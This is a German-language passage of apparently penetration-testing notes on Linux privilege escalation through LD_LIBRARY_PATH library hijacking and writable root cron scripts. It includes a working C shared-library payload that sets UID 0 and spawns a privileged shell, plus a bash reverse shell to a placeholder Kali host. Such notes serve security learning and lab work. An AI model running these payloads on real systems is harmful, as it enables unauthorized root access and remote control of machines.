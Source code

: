 ```bash
ldd /usr/sbin/apache2
```

Wenn nun eine shared library mit dem selben Namen wie die library, die das Programm lädt, erzeugt wird und **LD_LIBRARY_PATH** auf deren parent directory gesetzt wird, wird die eigene shared library als erstes geladen. Folgende Befehle (inkl. C Programm) werden hierfür genutzt, wenn **LD_LIBRARY_PATH** gesetzt ist:

```bash
#Programm library_path.c

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

#Kompilieren mit gcc -o libcrypt.so.1 -shared -fPIC library_path.c
sudo LD_LIBRARY_PATH=. apache2
```
![image-20200726124542913](https://user-images.githubusercontent.com/33549572/88826540-29509500-d1c9-11ea-8de6-7eb92ced4e91.png)

## Cron Jobs

Cron Jobs laufen unter dem Security Level des Benutzer, welchem der Job gehört. Cron table Files (crontabs) beinhalten die Config für Con Jobs. Sie sind an den folgenden Orten gespeichert:

```bash
#Benutzer crontabs
/var/spool/cron/
/var/spool/cron/crontabs/

#System-wide crontabs
/etc/crontab
```

#### File Permissions

Wenn ein Cron Jobs Scripts ausführt, welche ein Script laden und dieses Script beschreibbar ist, kann eigener Code ausgeführt würden. Dies kann u.U. zu PrivEsc führen. Der Prozess kann z.B. so aussehen:

![image-20200726131253550](https://user-images.githubusercontent.com/33549572/88826582-340b2a00-d1c9-11ea-9b69-e7ba23c10fdf.png)

**overwrite.sh** wird minütlich als root ausgeführt (durch * * * * * erkenntlich) und kann z.B. eine Reverse Shell zu Kali ausführen:

```bash
#Inhalt von overwrite.sh

#!/bin/bash
bash -i >& /dev/tcp/KALI-IP/PORT 0>&1
```

